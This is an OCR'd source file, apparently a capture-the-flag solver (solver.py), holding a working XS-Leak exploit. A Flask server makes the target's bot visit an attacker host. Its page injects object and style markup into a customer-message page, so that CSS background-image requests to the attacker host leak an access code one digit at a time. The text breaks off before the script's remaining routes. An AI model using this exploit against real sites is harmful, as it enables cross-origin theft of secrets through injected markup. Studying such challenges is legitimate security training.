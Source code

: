 solver.py
```py
from flask import Flask, Response, make_response, request
import requests
charset = [str(x) for x in range(10)]
prefix = ""
app = Flask(__name__)
HOST = "http://16.78.71.126:8000"
TARGET_BOT = "http://54.254.152.24:5579"
TARGET = "http://54.254.152.24:5578"
# TARGET_BOT = "http://localhost:5588"
# TARGET = "http://localhost:5578"
req = requests.Session()
body = {
   "username": "bengsky",
   "password":"123",
}
req.post(TARGET+"/register", json=body)
req.post(TARGET+"/login", json=body)
print(req.post(TARGET_BOT+"/visit", json={"url":HOST}).text)
def get_flag():
   global prefix
   global req
   text = req.get(TARGET+"/guess-access?access_code="+prefix)
   print(text.text)
   prefix = "CLOSE"
   print(text.text)
@app.route('/')
def index():
   html = f'''
   <!DOCTYPE html>
   <html>
   <head>
     <title>XS Leak PoC</title>
   </head>
   <body>
     <h1>XS-Leak via object + background-image</h1>
     <script>
     (async() =>{{
   setTimeout(() => {{
   window.location.reload()
   }}, 5000)
   const prefix = await fetch('/prefix').then(res => res.text());
   if(prefix == "CLOSE"){{
   window.close()
   }}
     let arr = []
     for(let x = 0; x<= 9; x++){{
       exploit = `<object data="/hidden-access?access_code=${{prefix}}${{x}}" type="text/html">
        <style>
           noscript{{
               background-image: url('{HOST}/leak?id=${{x}}');
           }}
       </style>
       <noscript></noscript>
               </object>`
               arr[x] = window.open("http://under-development-web:5578/customer-message?name=a&message="+encodeURIComponent(exploit));
               setTimeout(() => {{
               arr[arr.length - x].close()
               }}, 1000+(x*100))
       }}
           }})()
       </script>
```